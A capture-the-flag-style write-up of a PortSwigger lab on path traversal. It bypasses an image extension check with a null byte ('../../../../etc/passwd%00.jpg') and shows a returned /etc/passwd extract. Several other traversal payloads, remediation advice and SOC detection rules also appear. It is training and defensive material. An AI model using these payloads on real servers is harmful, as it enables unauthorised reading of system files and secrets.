

# File Path Traversal — Validation of File Extension (Null Byte Bypass)

| Field | Detail |
|---|---|
| Lab | File path traversal, validation of file extension |
| Platform | PortSwigger Web Security Academy |
| Vulnerability | Path Traversal (null byte bypass of extension check) |
| CWE | CWE-22: Improper Limitation of a Pathname to a Restricted Directory |
| Severity | High |
| Date | 15 November 2026 |
| Author | Md Jahidur Rahman Jahid |

## Summary

The application loads images through a `filename` parameter and checks
that the filename ends with an approved image extension such as `.jpg`.
A null byte (`%00`) in the filename defeats the check: the validation
sees the `.jpg` at the end and allows the request, but the file handling
stops reading at the null byte, so the server opens `/etc/passwd`
instead of an image.

## Steps to Reproduce

1. Open a product image in a new tab. The image loads through a URL
   parameter, for example:

```text
GET /image?filename=53.jpg
```

2. Intercept the request in Burp Suite and send it to Repeater. Try the
   traversal methods from the earlier labs first:
   - Plain traversal (`../../../../etc/passwd`) — did not work.
   - Absolute path (`/etc/passwd`) — did not work.
   - Nested traversal (`....//....//`) — did not work.
   - Double URL encoding (`%252e%252e%252f...`) — did not work.
   The application checks the file extension, so every payload without
   a `.jpg` ending is rejected.
3. Add a null byte before the extension:

```http
GET /image?filename=../../../../etc/passwd%00.jpg HTTP/1.1
Host: [lab].web-security-academy.net
Cookie: session=[REDACTED]
```

Why it works: the extension check looks at the end of the string and
sees `.jpg`, so it passes. But the underlying file handling treats
`%00` (the null byte) as the end of the string, so it opens
`../../../../etc/passwd` and ignores the `.jpg` after it.

4. The response returns the contents of `/etc/passwd`, proving the
   traversal worked.

## Evidence

Burp Repeater — the null byte payload in the `filename` parameter
(left) and the `/etc/passwd` contents in the response (right).



Response (extract):

```text
HTTP/1.1 200 OK
Content-Type: image/jpeg

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
peter:x:1201:1201::/home/peter:/bin/bash
```

## Impact

An attacker who can traverse outside the intended directory can:

- Read sensitive files on the server, such as `/etc/passwd`,
  application configuration, and source code.
- Read credentials and secrets stored in files, which can lead to
  further access.
- In some cases, combine file read with other flaws to take control
  of the server.

## Remediation

- Never build file paths from user input. Use an allowlist of
  permitted files, or map input to files with an ID lookup instead
  of a path.
- If a path must be built from input, validate the final resolved
  path after all decoding: check that it still sits inside the
  intended directory, and reject anything else. Do not rely on the
  file extension alone.
- Reject null bytes in input outright.
- Run the application with the least privilege needed, so a
  successful traversal exposes as little as possible.

## Detection (SOC)

- Alert on web requests where a file parameter contains traversal
  sequences (`../`, `..\\`) or their encoded forms, or a null byte
  (`%00`).
- Alert on requests for sensitive files such as `/etc/passwd` through
  image or download endpoints.
- Alert on responses from image endpoints that return text content
  instead of an image.

## References

- PortSwigger — Path traversal: https://portswigger.net/web-security/file-path-traversal
- CWE-22: https://cwe.mitre.org/data/definitions/22.html
